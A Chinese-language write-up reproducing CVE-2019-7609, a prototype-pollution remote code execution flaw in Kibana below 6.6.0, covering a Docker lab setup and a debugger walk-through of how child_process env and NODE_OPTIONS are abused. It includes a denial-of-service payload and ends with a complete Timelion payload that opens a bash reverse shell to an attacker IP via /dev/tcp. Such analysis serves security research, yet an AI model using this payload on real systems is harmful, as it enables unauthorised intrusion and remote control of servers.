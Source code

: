 （CVE-2019-7609）kibana \< 6.6.0 未授权远程代码命令执行
=======================================================

一、漏洞简介
------------

Kibana 是一款开源的数据分析和可视化平台，它是Elastic
Stack成员之一，设计用于和Elasticsearch协作。

二、漏洞影响
------------

kibana \< 6.6.0

三、复现过程
------------

#### 环境搭建

    docker pull docker.elastic.co/kibana/kibana:6.5.4 
    docker network create elastic 
    docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
    docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
    docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana

这样启动的kibana没法调试，可以自己改改镜像，在node启动命令里加个inspect参数：

    docker ps -a --no-trunc  # 找到启动脚本

    在node启动命令后加上--inspect=0.0.0.0:9229

    docker commit kibana kibana-debug  # 保存修改后的镜像
    docker rm -f kibana
    docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的kibana容器

kibana控制台：<http://127.0.0.1:5601/> inspect调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId27.png)

有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个cookie就可以导致拒绝服务：

    .es(*).props(label.__proto__.cookie="aaa")

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId28.png)

要复原的话可以在inspect调试器里删掉原型对象的cookie属性：

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId29.png)

DOS很好实现，怎么搞成RCE呢？根据经验，容易想到一些常见情形，如：

    if(obj.jsCode) eval(obj.jsCode) 这种白给的
    express ejs模版引擎中的动态函数调用

作者并没有找到明显的代码执行点，但是在瞎点到canvas的时候，他发现控制台暴了很多错误（这是inpector的输出，也就是说如果启docker的时候加了-d的话，可能就错过这个RCE了\...）。

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId30.png)

作者据此得出结论：kibana在创建新进程
创建进程可就是个敏感的行为了，能不能污染命令/参数呢？
来动态看下进程创建的过程，

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId31.png)

首先调用normalizeSpawnArguments.apply()处理参数，

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId32.png)

跟进，

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId33.png)

这里实际是在处理child\_process.spawn(command\[, args\]\[,
options\])的第三个参数options。

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId34.png)

这里面的有些参数是undefined的，只有声明了才会处理，也即是我们可以污染的。
作者利用的就是这个env参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。
回想下控制台报的错：\"Starting inspector on 0.0.0.0:9229 failed: address
already in use\"。
这句话透露出的是：此时正在创建一个node命令进程，并且使用了\--inpect:0.0.0.0:9229参数。
这下目标就清晰了，我们能控制的node的环境变量。

在node中，有一个NODE\_OPTIONS变量，

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId35.png)

通过这个变量，可以覆盖node进程的参数。
也就是说，现在我们能控制node进程的参数了。这就很有用了，比如\--eval参数是可以直接执行代码的。

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId36.png)

但是，NODE\_OPTIONS似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向\--eval这种是用不了的。

不过作者找到了另一个参数\--require，

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId37.png)

这个有点像php里的auto\_prepend\_file，预加载一个文件。

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId38.png)

现在我们可以看成有一个文件包含的洞了，怎么RCE呢？
通常，我们都会上传一个文件再包含，或者去包含web服务器日志/SSH日志。
作者这里利用的方法也十分巧妙，Linux下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ这个文件，直接包含这个文件不就好了。

![](resource/(CVE-2019-7609)Kibana6.6.0未授权远程代码命令执行/media/rId39.png)

最后payload如下：

> 将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion`
> 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

然后自己机器开启监听，再点击 Canvas
